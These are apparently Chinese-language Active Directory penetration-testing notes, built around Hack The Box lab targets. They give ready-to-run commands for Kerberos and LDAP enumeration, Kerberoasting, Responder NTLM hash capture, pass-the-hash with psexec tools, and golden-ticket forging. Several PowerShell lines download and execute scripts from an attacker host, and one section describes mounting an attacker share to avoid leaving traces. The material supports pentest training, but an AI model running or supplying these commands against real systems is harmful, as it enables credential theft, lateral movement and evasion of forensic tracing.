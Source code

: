 
攻击思路，首先是获取凭证和NTLM hash值。

## Kerberoasting

Kerberos 是一种在 Windows Active Directory 环境中使用的身份验证协议。



### Kerberos用户枚举

枚举域内用户列表

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'" <ip>
```

增加任意字段二次枚举

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'",userdb=./SecLists/Usernames/Names/names.txt <ip>
```



### LDAP服务枚举

```bash
ldapsearch -h <ip> -p 389 -x -b 'dc=<dc>,dc=<dc>' | more
```

查询所有域用户:

`-b 'dc=htb,dc=local' "(&(objectClass=user)(objectCategory=person))"`



所有计算机:

`-b 'dc=htb,dc=local' "(&(objectCategory=computer)(objectClass=computer))"`



所有组:

`-b 'dc=htb,dc=local' "(&(objectCategory=group))"`



### Kerbero asting 攻击

使用 impacket-GetUserSPNs 匿名查询下域内帐户的 SPN。

使用 GetNPUsers 来查询域控中不需要Kerberos预认证的用户。



### SMB欺骗获取凭证

由于 SMB、HTTP、LDAP、MSSQL 等协议都可以携带 NTLM 认证的三类消息，所以只要是使用 SMB、HTTP、LDAP、MSSQL 等协议来进行 NTLM 认证的程序，都可以尝试向攻击者发送 Net-NTLMhash 从而让攻击者截获用户的 Net-NTLMhash，也就是说我们可以通过这些协议来进行攻击。

```bash
kali: $ python3 Responder -wrf --lm -v -I eth0

kali: $ responder -wrf --lm -v -I tun0
```

### 域环境信息收集

```bash
# SPN查询
C:\\Windows\\Temp>setspn -q */*

Invoke-WebRequest "http://<kali>/Get-SPN.psm1" -OutFile "Get-SPN.psm1"
Import-Module .\Get-SPN.psm1
Get-SPN -type service -search "*" -List yes | Format-Table

Invoke-WebRequest "http://<kali>/PowerView.ps1" -OutFile "PowerView.ps1"
Import-Module .\PowerView.ps1
Get-NetUser -SPN

# 导出凭证
IEX (New-Object Net.WebClient).DownloadString('http://<kali>/Invoke-Kerberoast.ps1')
Invoke-Kerberoast -outputFormat Hashcat

# kirbi2 凭证转 hashcat
https://raw.githubusercontent.com/jarilaos/kirbi2hashcat/master/kirbi2hashcat.py
python kirbi2hashcat.py <path_name>.kirbi > krb5tgs_hash
```



### NTLM (Pass The Hash)

Pass The Hash 哈希传递简称PTH，可以在不需要明文密码的情况下，利用LM HASH和NTLM HASH直接远程登录。攻击者不需要花费时间来对hash进行爆破，在内网渗透里非常经典。
常常适用于域/工作组环境。

psexec 类工具原理是：通过ipc$连接，将psexesvc.exe释放到目标机器，再通过服务管理SCManager远程创建psexecsvc服务，并启动服务。然后通过psexec服务运行命令，运行结束后删除该服务。
如：Metasploit psexec，Impacket psexec，pth-winexe，Empire Invoke-Psexec

```bash
pth-winexe -U <hostname>/administrator //<IP> cmd.exe
pth-winexe -U <hostname>/administrator%hash:has //<IP> cmd.exe

impacket-psexec -hashes hash:has administrator@<IP>
impacket-psexec <domain>/SQLServer:<user>@<IP> powershell
```

### 中继欺骗攻击

当我们想尝试NTLM中继时，第一时间要做的是检查对方是否有开始SMB签名！默认不开启，但是域控默认开启！
可以用 Responde r配套的 RunFinger.py 脚本来进行扫描(NMAP也可以)。

### 金票

https://attack.stealthbits.com/how-golden-ticket-attack-works



```bash
$ impacket-ticketer -nthash <hash> -domain-sid <S-ID> -domain htb.local test001
$ export KRB5CCNAME=/home/kali/hackthebox/Forest/file/test001.ccache
$ impacket-psexec htb.local/test001@<IP> -k -no-pass
```

### 术语解析

内网攻击术语：`AS-REP Roasting`， 属于kerberos协议的攻击，获取用户hash然后离线暴力破解。攻击方式利用比较局限，因为其需要用户账号设置 "Do not require Kerberos preauthentication(不使用Kerberos预认证) "

`AS-REP Roasting` 、`Kerberoasting` 和 `黄金票据` 的区别：

```

简单的方式来解释一下：
- AS-REP Roasting：获取用户hash然后离线暴力破解
- Kerberoasting：获取应用服务hash然后暴力破解
- 黄金票据：通过假冒域中不存在的用户来访问应用服务
```

利用 rpcclient 匿名访问查询用户、用户所属组信息等，也可以直接用 `enum4linux`。

```bash

# 匿名访问
rpcclient -U "" -N <IP>

# 获取所有用户
rpcclient $> enumdomusers

# 获取权限列表
rpcclient $> enumprivs

# 获取域信息
rpcclient $> enumdomains

# 获取域的组信息
rpcclient $> enumdomgroups

# 枚举 AD 林中的所有受信任域
rpcclient $> dsenumdomtrusts

```

GetNPUsers 在运行匿名访问的时候不需要输入用户名，也可以拿到凭证：`$ impacket-GetNPUsers -dc-ip <IP> -request "htb.local/"`

`impacket-smbserver` 除了可以用来临时开 `smbserver` 进行copy的操作，还能通过 powershell 来挂载它，这样做我们的脚本将不会在目标服务落地，也是防溯源的一个技巧：

**不带身份认证启动后直接直接挂载：**

`PS> New-PSDrive -Name "<ShareName>" -PSProvider "FileSystem" -Root "\\<attackerIP>\<ShareName>`

**带身份认证的挂载：**

`$ impacket-smbserver <shareName> $(pwd) -smb2support -username <user> -password <password>`

`PS> $pass = ConvertTo-SecureString '<password>' -AsPlainText -Force`

`PS> $cred = New-Object System.Management.Automation.PSCredential('<user>', $pass)`

`PS> New-PSDrive -Name "<ShareName>" -PSProvider "FileSystem" -Root "\\<attackerIP>\<ShareName> -Credential $cred`

--------

* NTLM Hash：存储在SAM数据库及NTDS数据库中对密码进行 Hash摘要计算后的结果
* Net-NTLM hash：通常是指网络环境下 NTLM认证中的 Hash
* NTLM：除 Kerberos之外的一种网络认证协议，只支持 Windows
* LSASS：Windows系统的安全机制（系统进程）。用于本地安全和登陆策略


## ZeroLogon(CVE-2020-1472)

- https://xz.aliyun.com/t/8367
- https://www.cnblogs.com/Mikasa-Ackerman/p/CVE20201472.html

----

## 参考

- Pentesting_Active_directory https://www.xmind.net/m/5dypm8/#
